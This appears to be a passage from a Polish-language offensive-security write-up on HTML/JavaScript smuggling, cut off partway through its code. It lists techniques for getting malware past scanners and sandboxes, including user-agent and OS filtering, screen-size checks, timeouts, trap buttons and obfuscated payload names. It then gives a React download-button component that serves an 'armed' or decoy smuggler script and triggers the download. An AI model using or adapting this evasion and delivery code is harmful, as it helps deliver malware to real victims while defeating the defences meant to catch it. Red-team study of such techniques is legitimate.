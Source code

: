 1. Próba wykonania JavaScript - większość skanerów nadal nie uruchamia JavaScriptu! Użycie Reacta właściwie daje nam to zabezpieczenie out-of-the-box.
2. Timeout - zaczekajmy 1-2 sekundy zanim zaczniemy szmuglować malware. Ofiara prawdopodobnie i tak nie kliknie szybciej. Jeśli sandbox czeka na rendering strony, to sekunda oczekiwania już go prawdopodobnie zniechęci.
3. OS detection - jeśli OS nie zgadza się z naszym celem, to szmugluj niegroźny decoy file. Zabezpieczy nas to przed spaleniem operacji.
4. Screen size - boty często ustawiają niepoprawny rozmiar ekranu. Dzięki temu jesteśmy też w stanie wykryć użytkowników urządzeń mobilnych, którym nie chcemy serwować naszego malware'u.
5. User Agent - boty często mają nietypowy User Agent, który nie pasuje do rzeczywistych użytkowników.
6. Obfuscated magic string - korzystając z jednego z dostępnych obfuskatorów możemy konstruować magiczny ciąg znaków, który jest nazwą pliku naszego uzbrojonego payloadu. Reverse engineering może zabrać trochę czasu.
7. Trap buttons - dodaj ukryte buttony pułapki, które kliknie jedynie bot. W ten sposób rozpoznamy, jeśli bot chodzi po stronie.
8. Złe praktyki HTML - korzystanie ze złych praktyk HTMLa może w naturalny sposób zaciemniać znaczenie naszego kodu. Np. wykorzystanie elementu `div` z akcją `onclick` zamiast klasycznego elementu `button` może spowodować, że sandbox go nie kliknie.

Przykładowa implementacja wybranych technik:

```javascript
// File: Button.tsx
import React from "react"
import { useEffect, useState } from "react"
import { UAParser } from "ua-parser-js"
import { isBot } from "ua-parser-js/helpers"

const isArmed = () => {
    const parser = new UAParser()

    // Make checks to download armed payload 
    if (isBot(parser.getUA())) return false
    if (parser.getOS().name?.toLowerCase() !== "windows") return false
    if (window.innerWidth < 500 || window.outerWidth < 500) return false

    return true
}

const DownloadButton = () => {
    const [isEnabled, setEnabled] = useState(true)

    useEffect(() => {
        // Start JS smuggling after a second
        const timeout = setTimeout(() => {
            // Decide if the smuggled file should be armed or unarmed (decoy)
            const version = isArmed() ? "armed" : "unarmed"

            // Download JS smuggler file from a server
            const script = document.createElement("script")
            script.src = `smuggler-${version}.js`
            document.body.appendChild(script)
        }, 1000)

        return () => clearTimeout(timeout)
    }, [])

    const onDownload = () => {
        if (!isEnabled) return

        // Call a function exported by smuggler script
        // to start client-side download
        const downloadFile = new Function("downloadFile()")
        downloadFile()
```